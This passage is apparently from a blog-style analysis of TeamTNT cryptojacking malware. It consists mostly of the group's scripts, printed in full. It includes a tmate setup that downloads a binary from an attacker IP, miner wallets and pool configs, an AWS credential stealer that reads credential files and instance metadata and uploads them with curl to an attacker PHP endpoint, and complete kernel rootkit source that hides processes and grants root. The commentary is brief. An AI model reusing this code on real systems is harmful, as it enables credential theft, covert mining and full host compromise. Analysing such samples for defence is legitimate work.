USERNS_HOST=""
docker run --help | grep -q -- --userns && USERNS_HOST="--userns=host"

usage() {
    name=$(basename "$0")
    cat >&2 <<-EOF
		Usage:
		$name launch {OPTIONS} {PEERS} - Launch Scope
		$name stop                     - Stop Scope
		$name command                  - Print the docker command used to start Scope
		$name help                     - Print usage info
		$name version                  - Print version info

		PEERS are of the form HOST[:PORT]
		HOST may be an ip or hostname.
		PORT defaults to 4040.

		Launch options:
	EOF
    docker run --rm --entrypoint=/home/weave/scope "$SCOPE_IMAGE" -h >&2
}

usage_and_die() {
    usage
    exit 1
}

[ $# -gt 0 ] || usage_and_die
COMMAND=$1
shift 1

check_docker_access() {

    # Extract socket path
    DOCKER_SOCK_FILE=""
    if [ -z "${DOCKER_HOST+x}" ]; then
        DOCKER_SOCK_FILE="/var/run/docker.sock"
    else
        WITHOUT_PREFIX="${DOCKER_HOST#unix://}"
        if [ "$WITHOUT_PREFIX" != "$DOCKER_HOST" ]; then
            DOCKER_SOCK_FILE="$WITHOUT_PREFIX"
        fi
    fi

    # shellcheck disable=SC2166
    if [ \( -n "$DOCKER_SOCK_FILE" \) -a \( ! -w "$DOCKER_SOCK_FILE" \) ]; then
        echo "ERROR: cannot write to docker socket: $DOCKER_SOCK_FILE" >&2
        echo "change socket permissions or try using sudo" >&2
        exit 1
    fi
}

# - The image embeds the weave script & Docker 1.13.1 client (mimicking a 1.10 client)
# - Weave needs 1.10.0 now (image pulling changes)
MIN_DOCKER_VERSION=1.10.0

check_docker_version() {
    if ! DOCKER_VERSION=$(docker -v | sed -n 's%^Docker version \([0-9]\{1,\}\.[0-9]\{1,\}\.[0-9]\{1,\}\).*$%\1%p') \
        || [ -z "$DOCKER_VERSION" ]; then
        echo "ERROR: Unable to parse docker version" >&2
        exit 1
    fi

    DOCKER_VERSION_MAJOR=$(echo "$DOCKER_VERSION" | cut -d. -f 1)
    DOCKER_VERSION_MINOR=$(echo "$DOCKER_VERSION" | cut -d. -f 2)
    DOCKER_VERSION_PATCH=$(echo "$DOCKER_VERSION" | cut -d. -f 3)

    MIN_DOCKER_VERSION_MAJOR=$(echo "$MIN_DOCKER_VERSION" | cut -d. -f 1)
    MIN_DOCKER_VERSION_MINOR=$(echo "$MIN_DOCKER_VERSION" | cut -d. -f 2)
    MIN_DOCKER_VERSION_PATCH=$(echo "$MIN_DOCKER_VERSION" | cut -d. -f 3)

    # shellcheck disable=SC2166
    if [ \( "$DOCKER_VERSION_MAJOR" -lt "$MIN_DOCKER_VERSION_MAJOR" \) -o \
        \( "$DOCKER_VERSION_MAJOR" -eq "$MIN_DOCKER_VERSION_MAJOR" -a \
        \( "$DOCKER_VERSION_MINOR" -lt "$MIN_DOCKER_VERSION_MINOR" -o \
        \( "$DOCKER_VERSION_MINOR" -eq "$MIN_DOCKER_VERSION_MINOR" -a \
        \( "$DOCKER_VERSION_PATCH" -lt "$MIN_DOCKER_VERSION_PATCH" \) \) \) \) ]; then
        echo "ERROR: scope requires Docker version $MIN_DOCKER_VERSION or later; you are running $DOCKER_VERSION" >&2
        exit 1
    fi
}

check_probe_only() {
    echo "${ARGS}" | grep -q -E -e "--no-app|--service-token|--probe-only"
}

check_listen_address_arg() {
    echo "${ARGS}" | grep -q -E -e "--app\\.http\\.address"
}

check_docker_for_mac() {
    [ "$(uname)" = "Darwin" ] \
        && [ -S /var/run/docker.sock ] \
        && [ ! "${DOCKER_HOST+x}" = x ] \
        && [ "${HOME+x}" = x ] \
        && [ -d "${HOME}/Library/Containers/com.docker.docker/Data" ]
}

# Check that a container named $1 with image $2 is not running
check_not_running() {
    case $(docker inspect --format='{{.State.Running}} {{.Config.Image}}' "$1" 2>/dev/null) in
        "true $2")
            echo "$1 is already running." >&2
            #exit 1
            ;;
        "true $2:"*)
            echo "$1 is already running." >&2
            #exit 1
            ;;
        "false $2")
            docker rm "$1" >/dev/null
            ;;
        "false $2:"*)
            docker rm "$1" >/dev/null
            ;;
        true*)
            echo "Found another running container named '$1'. Aborting." >&2
            #exit 1
            ;;
        false*)
            echo "Found another container named '$1'. Aborting." >&2
            #exit 1
            ;;
    esac
}

check_plugins_dir() {
    # If plugins dir exists for Docker containers then we will mount it
    # (the context for Docker might be different to that for this script, e.g. when using Docker for Mac)
    if docker run $USERNS_HOST --rm --entrypoint=/bin/sh \
        -v /var/run:/var/run \
        "$SCOPE_IMAGE" -c "test -d /var/run/scope/plugins"; then
        PLUGINS_DIR_EXISTS=true
    fi
}

docker_args() {
    echo --privileged $USERNS_HOST --net=host --pid=host \
        -v /var/run/docker.sock:/var/run/docker.sock \
        -v /sys/kernel/debug:/sys/kernel/debug \
        -e CHECKPOINT_DISABLE
    # shellcheck disable=SC2039
    [ -n "${PLUGINS_DIR_EXISTS:-}" ] && echo -v /var/run/scope/plugins:/var/run/scope/plugins
}

launch_command() {
    # shellcheck disable=SC2046,SC2086
    echo docker run -d --name="$SCOPE_CONTAINER_NAME" $(docker_args) \
        $WEAVESCOPE_DOCKER_ARGS "$SCOPE_IMAGE" --probe.docker=true
}

launch_docker4mac_app_command() {
    # shellcheck disable=SC2086
    echo docker run -d --name="$SCOPE_APP_CONTAINER_NAME" \
        -e CHECKPOINT_DISABLE \
        -p 0.0.0.0:4040:4040 \
        $WEAVESCOPE_DOCKER_ARGS "$SCOPE_IMAGE" --no-probe
}

launch() {
    check_not_running "$SCOPE_CONTAINER_NAME" "$SCOPE_IMAGE_NAME"
    docker rm -f "$SCOPE_CONTAINER_NAME" >/dev/null 2>&1 || true
    $(launch_command) "$@"
    echo "Scope probe started"
}

print_app_endpoints() {
    HOST_SUFFIX=""
    if [ -n "${DOCKER_HOST+x}" ]; then
        DOCKER_HOSTNAME=$(run_in_scope_container hostname)
        HOST_SUFFIX=" of host $DOCKER_HOSTNAME"
    fi
    echo "Weave Scope is listening at the following URL(s)${HOST_SUFFIX}:" >&2
    for ip in "$@"; do
        echo "  * http://$ip:4040/" >&2
    done
}

dry_run() {
    # Do a dry run of scope in the foreground, so it can parse args etc
    # avoiding the entrypoint script in the process.
    # shellcheck disable=SC2046
    docker run --rm --entrypoint=/home/weave/scope $(docker_args) "$SCOPE_IMAGE" --dry-run "$@"
}

run_in_scope_container() {
    docker run --rm $USERNS_HOST --net=host --entrypoint /bin/sh "$SCOPE_IMAGE" -c "$1"
}

# Wait for the scope app to start listening on localhost:4040
wait_for_http() {
    for seconds in $(seq 5); do
        if run_in_scope_container "curl -m 1 -s localhost:4040" >/dev/null; then
            break
        fi
        sleep 1
    done
    if [ "$seconds" -eq 5 ]; then
        echo "The Scope App is not responding. Consult the container logs for further details."
        exit 1
    fi
}

check_docker_access
check_docker_version

case "$COMMAND" in
    command)
        # Most systems should have printf, but the %q specifier isn't mandated by posix
        # and can't be guaranteed. Since this is mainly a cosmetic output and the alternative
        # is not making any attempt to do escaping at all, we might as well try.
        # shellcheck disable=SC2039
        quoted=$(printf '%q ' "$@" 2>/dev/null || true)
        # printf %q behaves oddly with zero args (it acts as though it received one empty arg)
        # so we ignore that case.
        if [ -z "$quoted" ] || [ $# -eq 0 ]; then
            quoted="$*"
        fi
        echo "$(launch_command) $quoted"
        ;;

    version)
        docker run --rm --entrypoint=/home/weave/scope "$SCOPE_IMAGE" --mode=version
        ;;

    -h | help | -help | --help)
        usage
        ;;

    launch)
        dry_run "$@"
        check_plugins_dir
        if check_docker_for_mac; then
            if check_probe_only; then
                launch "$@"
                exit
            fi
            # Docker for Mac (as of beta9) does not ship vmnet driver and
            # thereby only access container ports via a tunnel, preventing
            # access to host ports of the VM.
            # - https://github.com/weaveworks/scope/issues/1411
            # - https://forums.docker.com/t/ports-in-host-network-namespace-are-not-accessible/10789
            if check_listen_address_arg; then
                echo "--app.http.address argument not supported on Docker for Mac" >&2
                exit 1
            fi
            check_not_running "$SCOPE_APP_CONTAINER_NAME" "$SCOPE_IMAGE_NAME"
            check_not_running "$SCOPE_CONTAINER_NAME" "$SCOPE_IMAGE_NAME"
            docker rm -f "$SCOPE_APP_CONTAINER_NAME" >/dev/null 2>&1 || true
            CONTAINER=$($(launch_docker4mac_app_command) "$@")
            echo "Scope probe started"
            app_ip=$(docker inspect -f '{{.NetworkSettings.IPAddress}}' "${CONTAINER}")
            docker rm -f "$SCOPE_CONTAINER_NAME" >/dev/null 2>&1 || true
            # shellcheck disable=SC2091
            CONTAINER=$($(launch_command) --no-app "$@" "${app_ip}:4040")
            print_app_endpoints "localhost"
            exit
        fi
        launch "$@"
        if ! check_probe_only; then
            if check_listen_address_arg; then
                echo "Weave Scope is listening at the address specified with --app.http.address" >&2
            else
                wait_for_http
                IP_ADDRS=$(run_in_scope_container "$LISTENING_IP_ADDR_CMD")
                # shellcheck disable=SC2086
                print_app_endpoints $IP_ADDRS
            fi
        fi
        ;;

    stop)
        [ $# -eq 0 ] || usage_and_die
        if docker inspect "$SCOPE_CONTAINER_NAME" >/dev/null 2>&1; then
            docker stop "$SCOPE_CONTAINER_NAME" >/dev/null
        fi
        if check_docker_for_mac; then
            if docker inspect "$SCOPE_APP_CONTAINER_NAME" >/dev/null 2>&1; then
                docker stop "$SCOPE_APP_CONTAINER_NAME" >/dev/null
            fi
        fi
        ;;

    *)
        echo "Unknown scope command '$COMMAND'" >&2
        usage_and_die
        ;;

esac
```

This potentially allows them to get a full topological view of a Docker/Kubernetes cluster.

There is also a script to setup and run tmate which is an SSH session sharing cloud platform. From LinuxHandbook’s website: *“On starting Tmate, it will first establish SSH (secure shell) connection to tmate.io website which acts as a server on the internet. Once the connection is established, a random SSH URL token is generated for each session. The ssh URL ID will be displayed at the bottom of your terminal session. Now the terminal is ready to be shared.”*


```
# wget -O- http://45.9.148.182/cmd/Setup_tmate.sh | sh
# https://tmate.io/t/HildeGard/testung001

echo "tmate Setup"

DL_URL="https://github.com/tmate-io/tmate/releases/download/2.4.0/tmate-2.4.0-static-linux-amd64.tar.xz"
API_KEY="tmk-4ST6GRXU6GPUjlXHfSlNe0ZaT2"
SESSION_NAME="testung002"

wget -O /tmp/tmate http://45.9.148.182/bin/tmate/$(uname -m)
chmod +x /tmp/tmate

/tmp/tmate -k $API_KEY -n $SESSION_NAME
```

---


### Other Miners

They have a couple of other scripts to download a few other miners like an ETH miner, RainBow miner, and an XMRig miner from moneroocean. I won’t go through these scripts but I’ll provide the wallets and other information from them.


```
ETH Miner Info

--pool 51.195.105.101:2020 --user 0x7420343c767fa5942aF034a6C61b13060160f59C.$(cat /etc/hostname)
```


```
MoneroOcean Miner Info

WALLET="438ss2gYTKze7kMqrgUagwEjtm993CVHk1uKHUBZGy6yPaZ2WNe5vdDFXGoVvtf7wcbiAUJix3NR9Ph1aq2NqSgyBkVFEtZ"

"url": *"[^"]*",/"url": "gulf.moneroocean.stream:'
```


```
RainBow Miner Config

{
  "RunMode": "client",
  "ServerName": "45.9.148.182",
  "ServerPort": 9999,
  "ServerUser": "HildeGard",
  "ServerPassword": "TeamTNT*4ever",
  "EnableServerConfig": "1",
  "EnableServerPools": "1",
  "ServerConfigName": "algorithms,coins,config,pools,scheduler"
}
```

---

### AWS Stealer


The final script I wanted to take a look at was the AWS Stealer script.

```
function AWS_SYSTEM_ENV(){
ALL_SYSTEM_ENV=$(strings /proc/*/env* | sort -u | grep 'AWS')
if [ ! -z "$ALL_SYSTEM_ENV" ]; then echo "Alle AWS Systemvariablen" >> $STEALER_OUT ; echo '~~~~~~~~~~~~~~~~~~~~~~~~' >> $STEALER_OUT
for ALLSYSTEMENV in ${ALL_SYSTEM_ENV[@]}; do
echo $ALLSYSTEMENV >> $STEALER_OUT
done
echo -e '\n\n' >> $STEALER_OUT
curl -sLk http://169.254.169.254$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI >> $STEALER_OUT
echo -e '\n\n' >> $STEALER_OUT
fi
}
```

It gets system environments to I think get the AWS_CONTAINER_CREDENTIALS_RELATIVE_URI path and then sends a packet to an APIPA address with that uri appended. Which seems like it will return with AWS Creds and that result will be saved in the .txt file that TeamTNT will extract.


```
function AWS_DOCKER_ENV(){
if type docker 2>/dev/null 1>/dev/null; then
DOCKER_ENV=$(docker inspect $(docker ps -q) | sort -u | grep 'AWS')
if [ ! -z "$DOCKER_ENV" ]; then echo "Docker Systemvariablen:" >> $STEALER_OUT ; echo '~~~~~~~~~~~~~~~~~~~~~~~' >> $STEALER_OUT
for DOCKERENV in ${DOCKER_ENV[@]}; do
echo $DOCKERENV >> $STEALER_OUT
done
echo -e '\n\n' >> $STEALER_OUT
fi
fi
}
```

This function will return Docker container information and plop that in the output file.

```
function AWS_CRED_FILES(){
ROOT_CRED_FILE=$(cat /root/.aws/credentials 2>/dev/null | grep 'aws_access_key_id\|aws_secret_access_key\|aws_session_token')
if [ ! -z "$ROOT_CRED_FILE" ]; then echo "AWS root CredFiles:" >> $STEALER_OUT ; echo '~~~~~~~~~~~~~~~~~~~' >> $STEALER_OUT
echo -e $ROOT_CRED_FILE | sed 's/aws_/\naws_/g' | sed 's/aws_access_key_id/\naws_access_key_id/g' >> $STEALER_OUT
echo -e '\n\n' >> $STEALER_OUT ; fi

USER_CRED_FILE=$(cat /home/*/.aws/credentials 2>/dev/null | grep 'aws_access_key_id\|aws_secret_access_key\|aws_session_token')
if [ ! -z "$USER_CRED_FILE" ]; then echo "AWS user CredFiles:" >> $STEALER_OUT ; echo '~~~~~~~~~~~~~~~~~~~' >> $STEALER_OUT
echo -e $USER_CRED_FILE | sed 's/aws_/\naws_/g' | sed 's/aws_access_key_id/\naws_access_key_id/g' >> $STEALER_OUT
echo -e '\n\n' >> $STEALER_OUT ; fi
}
```

This function extracts the access keys and tokens from the local filesystem and puts them in the output file.

```
function AWS_META_DATA_CREDS(){

export TNT_AWS_ACCESS_KEY=$(curl --max-time $T1O --connect-timeout $T1O -sLk http://169.254.169.254/latest/meta-data/iam/security-credentials/$(curl -sLk http://169.254.169.254/latest/meta-data/iam/security-credentials/) | grep 'AccessKeyId' | sed 's/  "AccessKeyId" : "/aws_access_key_id = /g' | sed 's/",//g')

if [ ! -z "$TNT_AWS_ACCESS_KEY" ]; then
export TNT_AWS_SECRET_KEY=$(curl --max-time $T1O --connect-timeout $T1O -sLk http://169.254.169.254/latest/meta-data/iam/security-credentials/$(curl -sLk http://169.254.169.254/latest/meta-data/iam/security-credentials/) | grep 'SecretAccessKey' | sed 's/  "SecretAccessKey" : "/aws_secret_access_key = /g' | sed 's/",//g')
fi

if [ ! -z "$TNT_AWS_SECRET_KEY" ]; then
export TNT_AWS_SESSION_TOKEN=$(curl --max-time $T1O --connect-timeout $T1O -sLk http://169.254.169.254/latest/meta-data/iam/security-credentials/$(curl -sLk http://169.254.169.254/latest/meta-data/iam/security-credentials/) | grep 'Token' | sed 's/  "Token" : "/aws_session_token = /g' | sed 's/",//g')
fi

if ! ( [ -z "$TNT_AWS_ACCESS_KEY" ] || [ -z "$TNT_AWS_SECRET_KEY" ] || [ -z "$TNT_AWS_SESSION_TOKEN" ] ); then
#sed -i 's/[default]/[default_'$RANDOM']/g' ~/.aws/credentials
echo "AWS_META-DATA CREDS:" >> $STEALER_OUT
echo '~~~~~~~~~~~~~~~~~~~~' >> $STEALER_OUT
echo '[default]' >> $STEALER_OUT
echo $TNT_AWS_ACCESS_KEY >> $STEALER_OUT
echo $TNT_AWS_SECRET_KEY >> $STEALER_OUT
echo $TNT_AWS_SESSION_TOKEN >> $STEALER_OUT
echo -e '\n\n' >> $STEALER_OUT
fi
}
```


This function extracts AWS meta-data creds. After looking this up, it seems like you can query for temporary credentials. Excerpt from Amazon: *“Each Amazon EC2 instance contains metadata that the AWS CLI can directly query for temporary credentials.”*


```
function AWS_DATA_LOGFILE_UPLOAD(){
if [ -f $STEALER_OUT ]; then
cat $STEALER_OUT
curl -F 'userfile=@/var/tmp/TeamTNT_AWS_STEALER.txt' http://chimaera.cc/in/AWS.php
rm -f $STEALER_OUT 2>/dev/null 1>/dev/null
fi
}
```

This is the upload function. Once it steals all the information it can, it’ll send it to the AWS.php page.


---


### XMRig Rootkit

For all the malware lovers like myself, here’s the source code for the rootkit they use. This is saved as base64 encoded within the init_main_root.sh script and is compiled into xmrighidder.ko and installed using insmod.

```
#include <linux/sched.h>
#include <linux/module.h>
#include <linux/syscalls.h>
#include <linux/dirent.h>
#include <linux/slab.h>
#include <linux/version.h> 

#if LINUX_VERSION_CODE < KERNEL_VERSION(4, 13, 0)
#include <asm/uaccess.h>
#endif

#if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 10, 0)
#include <linux/proc_ns.h>
#else
#include <linux/proc_fs.h>
#endif

#if LINUX_VERSION_CODE < KERNEL_VERSION(2, 6, 26)
#include <linux/file.h>
#else
#include <linux/fdtable.h>
#endif

#if LINUX_VERSION_CODE <= KERNEL_VERSION(2, 6, 18)
#include <linux/unistd.h>
#endif

#ifndef __NR_getdents
#define __NR_getdents 141
#endif

#include "xmrighidder.h"

#if IS_ENABLED(CONFIG_X86) || IS_ENABLED(CONFIG_X86_64)
unsigned long cr0;
#elif IS_ENABLED(CONFIG_ARM64)
void (*update_mapping_prot)(phys_addr_t phys, unsigned long virt, phys_addr_t size, pgprot_t prot);
unsigned long start_rodata;
unsigned long init_begin;
#define section_size init_begin - start_rodata
#endif
static unsigned long *__sys_call_table;
#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
	typedef asmlinkage long (*t_syscall)(const struct pt_regs *);
	static t_syscall orig_getdents;
	static t_syscall orig_getdents64;
	static t_syscall orig_kill;
#else
	typedef asmlinkage int (*orig_getdents_t)(unsigned int, struct linux_dirent *,
		unsigned int);
	typedef asmlinkage int (*orig_getdents64_t)(unsigned int,
		struct linux_dirent64 *, unsigned int);
	typedef asmlinkage int (*orig_kill_t)(pid_t, int);
	orig_getdents_t orig_getdents;
	orig_getdents64_t orig_getdents64;
	orig_kill_t orig_kill;
#endif

unsigned long *
get_syscall_table_bf(void)
{
	unsigned long *syscall_table;
	
#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 4, 0)
#ifdef KPROBE_LOOKUP
	typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
	kallsyms_lookup_name_t kallsyms_lookup_name;
	register_kprobe(&kp);
	kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
	unregister_kprobe(&kp);
#endif
	syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
	return syscall_table;
#else
	unsigned long int i;

	for (i = (unsigned long int)sys_close; i < ULONG_MAX;
			i += sizeof(void *)) {
		syscall_table = (unsigned long *)i;

		if (syscall_table[__NR_close] == (unsigned long)sys_close)
			return syscall_table;
	}
	return NULL;
#endif
}

struct task_struct *
find_task(pid_t pid)
{
	struct task_struct *p = current;
	for_each_process(p) {
		if (p->pid == pid)
			return p;
	}
	return NULL;
}

int
is_invisible(pid_t pid)
{
	struct task_struct *task;
	if (!pid)
		return 0;
	task = find_task(pid);
	if (!task)
		return 0;
	if (task->flags & PF_INVISIBLE)
		return 1;
	return 0;
}

#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs) {
#if IS_ENABLED(CONFIG_X86) || IS_ENABLED(CONFIG_X86_64)
	int fd = (int) pt_regs->di;
	struct linux_dirent * dirent = (struct linux_dirent *) pt_regs->si;
#elif IS_ENABLED(CONFIG_ARM64)
	int fd = (int) pt_regs->regs[0];
	struct linux_dirent * dirent = (struct linux_dirent *) pt_regs->regs[1];
#endif
	int ret = orig_getdents64(pt_regs), err;
#else
asmlinkage int
hacked_getdents64(unsigned int fd, struct linux_dirent64 __user *dirent,
	unsigned int count)
{
	int ret = orig_getdents64(fd, dirent, count), err;
#endif
	unsigned short proc = 0;
	unsigned long off = 0;
	struct linux_dirent64 *dir, *kdirent, *prev = NULL;
	struct inode *d_inode;

	if (ret <= 0)
		return ret;

	kdirent = kzalloc(ret, GFP_KERNEL);
	if (kdirent == NULL)
		return ret;

	err = copy_from_user(kdirent, dirent, ret);
	if (err)
		goto out;

#if LINUX_VERSION_CODE < KERNEL_VERSION(3, 19, 0)
	d_inode = current->files->fdt->fd[fd]->f_dentry->d_inode;
#else
	d_inode = current->files->fdt->fd[fd]->f_path.dentry->d_inode;
#endif
	if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev)
		/*&& MINOR(d_inode->i_rdev) == 1*/)
		proc = 1;

	while (off < ret) {
		dir = (void *)kdirent + off;
		if ((!proc &&
		(memcmp(MAGIC_PREFIX, dir->d_name, strlen(MAGIC_PREFIX)) == 0))
		|| (proc &&
		is_invisible(simple_strtoul(dir->d_name, NULL, 10)))) {
			if (dir == kdirent) {
				ret -= dir->d_reclen;
				memmove(dir, (void *)dir + dir->d_reclen, ret);
				continue;
			}
			prev->d_reclen += dir->d_reclen;
		} else
			prev = dir;
		off += dir->d_reclen;
	}
	err = copy_to_user(dirent, kdirent, ret);
	if (err)
		goto out;
out:
	kfree(kdirent);
	return ret;
}

#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
static asmlinkage long hacked_getdents(const struct pt_regs *pt_regs) {
#if IS_ENABLED(CONFIG_X86) || IS_ENABLED(CONFIG_X86_64)
	int fd = (int) pt_regs->di;
	struct linux_dirent * dirent = (struct linux_dirent *) pt_regs->si;
#elif IS_ENABLED(CONFIG_ARM64)
		int fd = (int) pt_regs->regs[0];
	struct linux_dirent * dirent = (struct linux_dirent *) pt_regs->regs[1];
#endif
	int ret = orig_getdents(pt_regs), err;
#else
asmlinkage int
hacked_getdents(unsigned int fd, struct linux_dirent __user *dirent,
	unsigned int count)
{
	int ret = orig_getdents(fd, dirent, count), err;
#endif
	unsigned short proc = 0;
	unsigned long off = 0;
	struct linux_dirent *dir, *kdirent, *prev = NULL;
	struct inode *d_inode;

	if (ret <= 0)
		return ret;	

	kdirent = kzalloc(ret, GFP_KERNEL);
	if (kdirent == NULL)
		return ret;

	err = copy_from_user(kdirent, dirent, ret);
	if (err)
		goto out;

#if LINUX_VERSION_CODE < KERNEL_VERSION(3, 19, 0)
	d_inode = current->files->fdt->fd[fd]->f_dentry->d_inode;
#else
	d_inode = current->files->fdt->fd[fd]->f_path.dentry->d_inode;
#endif

	if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev)
		/*&& MINOR(d_inode->i_rdev) == 1*/)
		proc = 1;

	while (off < ret) {
		dir = (void *)kdirent + off;
		if ((!proc && 
		(memcmp(MAGIC_PREFIX, dir->d_name, strlen(MAGIC_PREFIX)) == 0))
		|| (proc &&
		is_invisible(simple_strtoul(dir->d_name, NULL, 10)))) {
			if (dir == kdirent) {
				ret -= dir->d_reclen;
				memmove(dir, (void *)dir + dir->d_reclen, ret);
				continue;
			}
			prev->d_reclen += dir->d_reclen;
		} else
			prev = dir;
		off += dir->d_reclen;
	}
	err = copy_to_user(dirent, kdirent, ret);
	if (err)
		goto out;
out:
	kfree(kdirent);
	return ret;
}

void
give_root(void)
{
	#if LINUX_VERSION_CODE < KERNEL_VERSION(2, 6, 29)
		current->uid = current->gid = 0;
		current->euid = current->egid = 0;
		current->suid = current->sgid = 0;
		current->fsuid = current->fsgid = 0;
	#else
		struct cred *newcreds;
		newcreds = prepare_creds();
		if (newcreds == NULL)
			return;
		#if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 5, 0) \
			&& defined(CONFIG_UIDGID_STRICT_TYPE_CHECKS) \
			|| LINUX_VERSION_CODE >= KERNEL_VERSION(3, 14, 0)
			newcreds->uid.val = newcreds->gid.val = 0;
			newcreds->euid.val = newcreds->egid.val = 0;
			newcreds->suid.val = newcreds->sgid.val = 0;
			newcreds->fsuid.val = newcreds->fsgid.val = 0;
		#else
			newcreds->uid = newcreds->gid = 0;
			newcreds->euid = newcreds->egid = 0;
			newcreds->suid = newcreds->sgid = 0;
			newcreds->fsuid = newcreds->fsgid = 0;
		#endif
		commit_creds(newcreds);
	#endif
}

static inline void
tidy(void)
{
	kfree(THIS_MODULE->sect_attrs);
	THIS_MODULE->sect_attrs = NULL;
}

static struct list_head *module_previous;
static short module_hidden = 0;
void
module_show(void)
{
	list_add(&THIS_MODULE->list, module_previous);
	module_hidden = 0;
}

void
module_hide(void)
{
	module_previous = THIS_MODULE->list.prev;
	list_del(&THIS_MODULE->list);
	module_hidden = 1;
}

#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
asmlinkage int
hacked_kill(const struct pt_regs *pt_regs)
{
#if IS_ENABLED(CONFIG_X86) || IS_ENABLED(CONFIG_X86_64)
	pid_t pid = (pid_t) pt_regs->di;
	int sig = (int) pt_regs->si;
#elif IS_ENABLED(CONFIG_ARM64)
	pid_t pid = (pid_t) pt_regs->regs[0];
	int sig = (int) pt_regs->regs[1];
#endif
#else
asmlinkage int
hacked_kill(pid_t pid, int sig)
{
#endif
	struct task_struct *task;
	switch (sig) {
		case SIGINVIS:
			if ((task = find_task(pid)) == NULL)
				return -ESRCH;
			task->flags ^= PF_INVISIBLE;
			break;
		case SIGSUPER:
			give_root();
			break;
		case SIGMODINVIS:
			if (module_hidden) module_show();
			else module_hide();
			break;
		default:
#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
			return orig_kill(pt_regs);
#else
			return orig_kill(pid, sig);
#endif
	}
	return 0;
}

#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
static inline void
write_cr0_forced(unsigned long val)
{
	unsigned long __force_order;

	asm volatile(
		"mov %0, %%cr0"
		: "+r"(val), "+m"(__force_order));
}
#endif

static inline void
protect_memory(void)
{
#if IS_ENABLED(CONFIG_X86) || IS_ENABLED(CONFIG_X86_64)
#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
	write_cr0_forced(cr0);
#else
	write_cr0(cr0);
#endif
#elif IS_ENABLED(CONFIG_ARM64)
	update_mapping_prot(__pa_symbol(start_rodata), (unsigned long)start_rodata,
			section_size, PAGE_KERNEL_RO);

#endif
}

static inline void
unprotect_memory(void)
{
#if IS_ENABLED(CONFIG_X86) || IS_ENABLED(CONFIG_X86_64)
#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
	write_cr0_forced(cr0 & ~0x00010000);
#else
	write_cr0(cr0 & ~0x00010000);
#endif
#elif IS_ENABLED(CONFIG_ARM64)
	update_mapping_prot(__pa_symbol(start_rodata), (unsigned long)start_rodata,
			section_size, PAGE_KERNEL);
#endif
}

static int __init
diamorphine_init(void)
{
	__sys_call_table = get_syscall_table_bf();
	if (!__sys_call_table)
		return -1;

#if IS_ENABLED(CONFIG_X86) || IS_ENABLED(CONFIG_X86_64)
	cr0 = read_cr0();
#elif IS_ENABLED(CONFIG_ARM64)
	update_mapping_prot = (void *)kallsyms_lookup_name("update_mapping_prot");
	start_rodata = (unsigned long)kallsyms_lookup_name("__start_rodata");
	init_begin = (unsigned long)kallsyms_lookup_name("__init_begin");
#endif

	module_hide();
	tidy();

#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 16, 0)
	orig_getdents = (t_syscall)__sys_call_table[__NR_getdents];
	orig_getdents64 = (t_syscall)__sys_call_table[__NR_getdents64];
	orig_kill = (t_syscall)__sys_call_table[__NR_kill];
#else
	orig_getdents = (orig_getdents_t)__sys_call_table[__NR_getdents];
	orig_getdents64 = (orig_getdents64_t)__sys_call_table[__NR_getdents64];
	orig_kill = (orig_kill_t)__sys_call_table[__NR_kill];
#endif

	unprotect_memory();

	__sys_call_table[__NR_getdents] = (unsigned long) hacked_getdents;
	__sys_call_table[__NR_getdents64] = (unsigned long) hacked_getdents64;
	__sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

	protect_memory();

	return 0;
}

static void __exit
diamorphine_cleanup(void)
{
	unprotect_memory();

	__sys_call_table[__NR_getdents] = (unsigned long) orig_getdents;
	__sys_call_table[__NR_getdents64] = (unsigned long) orig_getdents64;
	__sys_call_table[__NR_kill] = (unsigned long) orig_kill;

	protect_memory();
}

module_init(diamorphine_init);
module_exit(diamorphine_cleanup);

MODULE_LICENSE("Dual BSD/GPL");
MODULE_AUTHOR("TeamTNTmod");
MODULE_DESCRIPTION("xmrighidder");
```

---

### Conclusion

Some interesting stuff in here. Shoutout to Smelly__vx and the rest of the VX-Underground team for grabbing all the cool stuff.


